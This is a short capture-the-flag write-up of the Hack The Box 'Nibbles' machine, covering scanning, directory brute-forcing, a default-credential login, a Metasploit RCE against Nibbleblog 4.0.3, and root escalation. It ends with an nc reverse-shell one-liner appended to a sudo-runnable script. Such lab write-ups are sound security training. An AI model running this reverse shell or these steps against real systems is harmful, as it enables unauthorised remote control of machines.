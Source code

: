 # [Nibbles](https://www.hackthebox.com/machines/nibbles)

```
nmap -p22,80 -sC -sV 10.10.10.75
```
![Alt text](img/image.png)


On source code of web page (Ctrl+U)
![Alt text](img/image-1.png)


Let's do directory brute-force
```bash
ffuf -u http://10.10.10.75/nibbleblog/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![Alt text](img/image-2.png)

Now, let's analyze this directoies, look for what we find.

I see that there is 'nibbleblog/admin.php' , let's login to here trying with username and password.

username:admin
password: nibbles

![Alt text](img/image-3.png)


On plugins section, I add my php file into here. (My image section and configure)
![Alt text](img/image-4.png)



On README (/nibbleblog/README) page of web application I see that, 
Nibbleblog v4.0.3 version is used,
we have RCE for this version

![Alt text](img/image-5.png)


Let's use this by msfconsole.

![Alt text](img/image-6.png)


And add required fields by showing (show options) and set fields due to my username,password,rhosts,targeturi

![Alt text](img/image-7.png)


user.txt

![Alt text](img/image-8.png)


While, looking at the permissions of nibbler user.

![Alt text](img/image-9.png)

I see that I can run monitor.sh file with root privileges (sudo)


Let's run below script to get normal shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then, I add my reverse shell into this file.

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1337 >/tmp/f' | tee -a monitor.sh
```

![Alt text](img/image-10.png)


Run this script as root user.

![Alt text](img/image-12.png)

root.txt

![Alt text](img/image-11.png)
